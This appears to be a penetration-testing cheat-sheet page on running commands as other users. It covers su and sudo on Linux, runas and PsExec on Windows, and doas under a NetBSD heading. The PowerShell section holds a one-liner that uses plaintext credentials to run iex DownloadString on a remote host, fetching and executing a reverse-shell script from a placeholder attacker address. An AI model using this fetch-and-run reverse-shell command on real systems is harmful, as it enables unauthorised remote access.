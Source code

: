 ```yaml
---
title: Run Commands As
category: Privilege Escalation
order: 3
---
```


Some times we need to do a lateral or vertical movement between the same hosts only switching between local users, and we cant use any type of authenticated service such as SMB or SSH.

# Linux

Linux has the easiest way to change between users using the `su` command.

```
su user
```

To change to `root` user (need to be in sudoer group)

```
sudo su -
```

# Windows

## Cmd

`runas` command gives us the oportunity in `cmd` the opportunity to run some commands as other users.

```
runas /user:username <program>
runas /user:domain\username <program>
runas /user:username@domain <program>
```

## PsExec

[_PsExec_ ](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)is part of a growing kit of Sysinternals command-line tools that aid in the administration of local and remote systems named _PsTools_.

```
psexec.exe /accepteula
psexec.exe [\\COMPUTER] /u USER /p PASS cmd [args]
```

## Powershell

```
$user='WORKGROUP\User'; 
$pass='passwd';
Invoke-Command -ScriptBlock { iex(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/rev_shell.ps1') } -ComputerName BART -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
```

# NetBSD

Similar like sudo

```
su user
```

Similar like `sudo`to change to `root`user:

```
doas -u USER sh
```
